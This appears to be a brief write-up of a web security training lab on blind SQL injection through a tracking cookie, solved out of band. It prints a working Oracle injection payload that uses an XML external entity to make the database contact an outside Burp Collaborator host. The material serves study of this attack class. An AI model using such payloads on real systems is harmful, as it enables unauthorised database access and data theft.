

# Blind SQL injection with out-of-band interaction

## Description

`TrackingId` cookie which is used in a query but it's excuted async and has no effect on response however we still able to exploit `out of band SQLI`.

## Objectivie

cause a DNS lookup to Burp Collaborator.

## Steps

1. the only way to test these vulnerability is by trying OAST queries for different types of DB if it valid the request happend on the collaporator.
2. so while trying payloads only one worked normally.
   `x' SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'pohdmwdhw3pvfbcxl7qkvoe85zbqzunj.oastify.com/"> %remote;]>'),'/l') FROM dual--`
3. that's the payload from `ORACLE` to uses `XXE` to make dns lookup
4. And here we are
   
